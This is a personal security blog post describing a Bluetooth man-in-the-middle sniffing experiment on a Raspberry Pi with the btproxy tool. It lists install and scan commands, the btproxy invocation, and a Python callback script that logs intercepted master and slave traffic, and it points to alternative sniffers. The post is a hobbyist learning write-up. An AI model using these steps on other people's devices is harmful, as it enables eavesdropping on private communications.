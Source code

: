 ```yaml
---
layout: post
title: Security Sprint Week 10 & 11&#58; Bluetooth hacking
author: terceranexus6
image:
  feature: banners/header.png
tags: bluetooth mitm python
---
```


I've been quite in many things lately, which didn't allow me to study all I wanted to. I'm mainly in two things, distributed ledger experiments and hardware. But I've had in mind a **hacking experiment** for quite a long time, and finally I decided to try it. It's a **Man In The Middle** attack (or sniffing) over bluetooth connections using a python repository, I think I will omit for what I wanted to know that.

<img src="{{ site.url }}/assets/images/dev.to/SaneSpanishCrayfish-max-1mb.gif" style="display: block; margin: 0 auto;">

Anyway, what I want to do here is to catch a connection between two nodes using bluetooth. The first idea is only to capture the content of the connection. For this I need a linux system, in this case I'm using debian based Raspbian in the RPi 3.

<img src="{{ site.url }}/assets/images/dev.to/r096d85eunjfpjpc3wdk.jpg" style="display: block; margin: 0 auto;">

On it, I install some packages and clone the [repo](https://github.com/conorpp/btproxy.git) of the tool on github (**git needed here, btw**):

```
$ sudo apt-get install bluez libbluetooth-dev python-dev
$ git clone git://github.com/conorpp/btproxy
```

For installing the tool, simply use `sudo python setup.py install`.

Now we need to [get](https://www.systutorials.com/docs/linux/man/1-hcitool/) the MAC address of the both nodes.

```
$ hcitool scan
```

<img src="{{ site.url }}/assets/images/dev.to/rjcsf6kg5iiufuu7pdz6.jpg" style="display: block; margin: 0 auto;">

Once we have them, we can use them in the [most basic MITM attack](https://github.com/conorpp/btproxy/blob/master/scripts/btproxy) the tool offer, like this:

```
$ sudo btproxy <master-bt-mac-address> <slave-bt-mac-address>
```

The master is the device the sends the connection request and the slave is the device listening for something to connect to it. We can make it better passing a custom script for slave and master, as explained in the README. For this we use `btproxy -s SCRIPT` being the script something like this:

```
# script_example.py
def master_cb(req):
    """
        Received something from master, about to be sent to slave.
    """
    print '<< ', repr(req)
    open('mastermessages.log', 'a+b').write(req)
    return req

def slave_cb(res):
    """
        Same as above but it's from slave about to be sent to master
    """
    print '>> ', repr(res)
    open('slavemessages.log', 'a+b').write(res)
    return res
```

I must say this tool confusing when using two nodes being equal, such as two mobiles phones, and didn't work properly. Also for that kind of sniffing I would suggest [this repo](https://github.com/vshymanskyy/BLESniffer_Python/tree/e9429371a9832d406fd6e897b2dadc2637c64976) instead, which also prepares a .pcap file out of the scanning for the phone traffic, but it might needs [hardware support](https://www.adafruit.com/product/2269), if you have an arduino you [can make](https://github.com/RedBearLab/nRF51822-Arduino) your own, tho. On the other hand, another alternative is [BTJuice](https://github.com/DigitalSecurity/btlejuice), which also works with **python + NodeJS**. This tool is very complete and includes an user-friendly interface for using in localhost. Also the commands are very similar to the ones used in btproxy.

Anyway this is everything I got until now!

*Originally written in: [https://dev.to/terceranexus6/security-sprint-week-10--11-bluetooth-hacking--4kh3](https://dev.to/terceranexus6/security-sprint-week-10--11-bluetooth-hacking--4kh3)*
